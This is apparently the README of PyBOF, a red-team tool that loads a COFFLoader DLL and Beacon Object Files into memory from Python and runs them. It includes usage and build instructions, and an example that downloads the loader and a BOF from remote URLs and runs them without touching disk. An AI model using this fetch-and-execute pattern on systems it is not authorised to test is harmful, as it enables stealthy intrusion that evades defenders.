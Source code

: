 # `PyBOF`
## Run Beacon Object files through python

in-memory loading and execution of BOFs

`PyBOF` enables Python3 to load Beacon Object Files via bytes and execute a target BOF function in a Python interpreter

## New in this branch
### Based on the research by tishina, I have integrated pythonmemorymodule (naksyn) for allowing loading of the COFFLoader from memory

## Basic Usage

### The run function has now been wrapped in a class for persisting COFFLoader function references. Because of this it must now be accessed the following way.
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
```

### Once bof.BOF has been initialized it's run function runs exactly the same as the old run function
#### Run a simple BOF with no required arguments
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
bof.run(data)
```

### Pass a raw string argument into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
bof.run(data, args=["foo"], raw=True)
# Raw cannot be used with function kwarg
```

### Pass packed/formatted arguments into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
bof.run(data, args=[r"c:\users"], format="w")
```

## Practical example of execution
```python
import bof
from urllib.request import urlopen
coffldr = urlopen('http://mysite/path/to/COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
bof.run(data, args=[r"c:\users"], format="w")
```

## Args/Kwargs
There are several args that can be used with run function from PyBOFs bof.BOF class, they are described in more detail below

### data
Mandatory first positional argument which must be a byte object which contains the raw contents of a BOF

### args
Optional keyword arg which is a list of arguments to pass into the target BOF function

### function
Optional keyword arg which is the string formatted name of target function to execute from the supplied BOF, this defaults to `go`

### format (NOTICE - These have recently been updated)
Optional keyword arg is a string, which informs the BOF argument packer of the argument types as they are packed into the buffer. This is similar to the format arg from `struct.pack`. The only valid format options are as follows:\
`i` for integer\
`s` for short\
`z` for string\
`b` for binary\
`Z` for wide

At least one format type must be supplied for each arg in the args list. This keyword arg cannot be used in conjunction with `raw`

### raw
Optional keyword arg which is a boolean that passes args as a space-joined string without packing it instead of attempting to pack formatted args for the BOF function. This keyword arg cannot be used in conjunction with `format`

## Building
Clone this repo

```cmd
git clone https://github.com/rkbennett/pybof.git
```

Build the COFFLoader dll (mingw in this example)
```cmd
cd pybof\COFFLoader\source
x86_64-w64-mingw32-gcc-12.2.0.exe -shared -Wall -DBUILD_DLL COFFLoader.c beacon_compatibility.c APIResolve.c -o COFFLoader.x64.dll
```

Place the COFFLoader dll in a location you can access

Change directory to parent of bof directory, import and have fun
```cmd
cd ..\..\
python
>>> import bof
>>> from urllib.request import urlopen
>>> coffldr = urlopen('http://mysite/path/to/COFFLoader.dll', 'rb').read()
>>> runner = bof.BOF(coffldr)
>>> data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
>>> bof.run(data, args=[r"c:\users"], format="w")
```

## Gotchas
If a BOF function does not return a value, I raise a warning alerting the user to the fact nothing was returned. I assume this is likely not the intended outcome of an execution, but didn't want to throw hard errors. `If you run a BOF function and receive the no output warning, keep in mind that your args formatting may need defined or may be defined incorrectly` which can cause this issue (specifically using string instead of wide)

## Special Thanks
* [natesubra](https://github.com/natesubra) - For answering my random questions
* [trustedsec](https://github.com/trustedsec) - For [COFFLoader](https://github.com/trustedsec/COFFLoader) (The real MVP)
* [naksyn](https://github.com/naksyn) - For [pythonmemorymodule](https://github.com/naksyn/PythonMemoryModule) (The other MVP)
* [zimnyaa](https://github.com/zimnyaa) - For the initial pythonmemorymodule integration legwork and pythonmemorymodule modifications to allow returning raw funciton addresses, also a great read here: https://tishina.in/execution/python-inmemory-bof